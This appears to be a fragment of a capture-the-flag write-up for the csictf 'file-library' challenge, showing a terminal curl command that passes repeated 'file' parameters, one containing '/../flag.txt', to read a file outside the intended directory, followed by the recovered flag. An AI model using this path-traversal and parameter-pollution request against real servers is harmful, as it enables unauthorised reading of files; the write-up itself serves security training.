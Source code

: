 ╭─zoey@virtual-parrot ~/sec/csictf/file-library ‹master*› 
╰─$ curl http://chall.csivit.com:30222/getFile\?file\=1\&file\=2\&file\=3\&file\=4\&file\=/../flag.txt\&file\=.\&file\=js                                                           130 ↵
csictf{5h0uld_5tr1ng1fy_th3_p4r4ms}